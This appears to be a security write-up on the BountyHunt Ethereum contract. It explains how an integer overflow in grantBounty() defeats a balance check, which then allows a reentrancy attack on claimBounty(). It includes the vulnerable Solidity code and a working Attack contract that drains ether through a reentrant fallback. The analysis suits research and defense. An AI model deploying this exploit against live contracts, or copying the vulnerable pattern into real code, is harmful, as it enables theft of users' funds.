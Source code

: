 BountyHunt
=======
https://etherscan.io/address/0xb5766f61911f8b520b0e938aae100834aa3048c6#code

Vulnerability type
------
Integer overflow

Reentry

Abstract
------
A smart contract implement for BountyHunt, allows users to call `grantBounty(address beneficiary, uint amount)` to save ethers as bounty in this contract and appoint the beneficiary who will be able to claim this bounty by calling `claimBounty()`.

For the safety of bounty in this contract, the owner use modifier `preventTheft` to prevent attacks. However, there exist an integer overflow vulnerability which makes it possible to bypass the modifier `preventTheft`. After that, attackers can exploit the reentry vulnerability to steal bounty stored in this contract.

Related Code
------
    pragma solidity ^0.4.4;

    contract BountyHunt {
      mapping(address => uint) public bountyAmount;
      uint public totalBountyAmount;

      modifier preventTheft {
        _;  
        if (this.balance < totalBountyAmount) throw;
      }

      function grantBounty(address beneficiary, uint amount) payable preventTheft {
        bountyAmount[beneficiary] += amount;
        totalBountyAmount += amount;
      }

      function claimBounty() preventTheft {
        uint balance = bountyAmount[msg.sender];
        if (msg.sender.call.value(balance)()) {
          totalBountyAmount -= balance;
          bountyAmount[msg.sender] = 0;
        }   
      }
      ......
    }
    
Details
------
We can see that in function `claimBounty()` there exists a reentry vulnerability: when user U claims his bounty, the contract firstly sends ethers to U, and after that sets the `bountyAmount` of U to 0. Here, the contract uses `call` function to send ethers, which will cause U excuting its `fallback()` function. If U calls `claimBounty()` again in its `fallback()` when the bountyAmount of U has not been set to 0 yet, U will receive double the ethers he should get.

To prevent this risk, the owner use a modifier `preventTheft`. It assumes that after a function being executed, the balance of this contract should not be less than `totalBountyAmount`, otherwise revert the whole execution. In normal case `totalBountyAmount` keeps track of the balance of this contract, but in reentry attack, when the attacker's `fallback()` calls `claimBounty()` again, `totalBountyAmount` will be larger than `this.balance` at that moment. So, it seems that this modifier can defend against reentry attack.

However, the integer overflow vulnerability in `grantBounty(address beneficiary, uint amount)` makes modifier `preventTheft` lose effectiveness. 

In normal case, when user U calls this function with some balance, it will set `amount` of balance as `beneficiary`'s bounty. The modifier `preventTheft` requires that the balance sending from U should be larger than `amount`. However, there exists an integer overflow vulnerability that will allow U to set `totalBountyAmount` to arbitrary value, and if U sets `totalBountyAmount` to a value smaller enough than the balance of this contract, modifier `preventTheft` will lose its effectiveness, and reentry attack on function `claimBounty()` will hold.

Exploit
------
    contract Attack {
        BountyHunt victim;
        uint256 reentry_time = 0;
    
        uint256 public my_balance;
    
        function setVictim(address target) { victim = BountyHunt(target); }
     
        // deposit Ether to victim
        function step1(uint256 amount) payable{
            if (this.balance > amount) {
                victim.grantBounty.value(amount)(this,amount);
            }
            my_balance = this.balance;
        }
    
        // withdraw Ether
        function step2(uint256 amount) {
            victim.claimBounty();
            my_balance = this.balance;
        }
        
        //reentry attack for only once
        function () payable {
            if (reentry_time == 0) {
                reentry_time += 1;
                victim.claimBounty();
            }
            my_balance = this.balance;
        }
    }
    
    contract BountyHunt{
        mapping(address => uint) public bountyAmount;
        uint public totalBountyAmount;
        modifier preventTheft {
            _;  
            if (this.balance < totalBountyAmount) throw;
        }
        function grantBounty(address beneficiary, uint amount) payable preventTheft {}
        function claimBounty() preventTheft {}
    }

Proof of concept
------
![1](./picture/2019-01-13 22-07-02屏幕截图.png "1")
